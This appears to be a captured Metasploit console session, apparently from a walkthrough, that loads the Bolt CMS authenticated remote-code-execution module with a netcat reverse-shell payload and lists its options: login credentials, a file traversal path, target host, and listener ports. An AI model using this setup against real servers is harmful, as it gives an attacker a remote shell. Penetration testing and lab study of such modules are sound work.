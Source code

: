 Metasploit tip: Writing a custom module? After editing your 
module, why not try the reload command
Metasploit Documentation: https://docs.metasploit.com/

msf6 > use unix/webapp/bolt_authenticated_rce
[*] Using configured payload cmd/unix/reverse_netcat
msf6 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on
                                                         the server
   PASSWORD                                    yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), see https://docs.metasploit.com/docs/usin
                                                         g-metasploit/basics/using-metasploit.html
   RPORT                8000                   yes       The target port (TCP)
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generat
                                                         ed)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,certutil,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on th
                                       e local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.

Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Linux (cmd)
